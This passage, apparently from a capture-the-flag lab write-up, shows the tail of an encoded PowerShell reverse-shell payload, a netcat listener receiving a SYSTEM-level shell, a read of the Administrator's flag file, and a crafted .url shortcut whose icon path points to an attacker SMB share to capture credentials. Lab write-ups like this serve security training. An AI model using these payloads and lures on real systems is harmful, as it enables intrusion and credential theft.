AGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=='
```
```
[★]$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.3.36] 64057
whoami
nt authority\system
PS C:\Windows\tasks> type ..\..\Users\Administrator\Desktop\root.txt
PS C:\share\transfer> ls


    Directory: C:\share\transfer


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         2/17/2022  11:21 AM                claire.pope                                                          
d-----         2/17/2022  11:21 AM                diana.pope                                                           
d-----         4/17/2025  12:38 AM                julia.wong                                                           
-a----          3/8/2026   2:36 PM            101 kavi.url
PS C:\share\transfer> cat kavi.url
[InternetShortcut]
URL=asdasdas
WorkingDirectory=hehe
IconFile=\\10.10.14.27\aasd\nc.ico
IconIndex=1
```
